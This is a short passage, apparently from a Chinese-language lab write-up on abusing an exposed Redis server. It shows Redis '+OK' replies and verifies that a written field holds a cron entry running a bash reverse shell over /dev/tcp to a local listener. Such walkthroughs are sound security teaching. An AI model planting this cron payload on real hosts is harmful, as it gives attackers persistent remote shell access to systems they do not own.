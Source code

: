 +OK
+OK
+OK
+OK
+OK
证明应该没有问题。那再检测以下Redis写入的字段和crontab的内容。

检测Redis数据库的字段为"\n\n\n*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1\n\n\n\n"
检测crontab的内容也没有问题
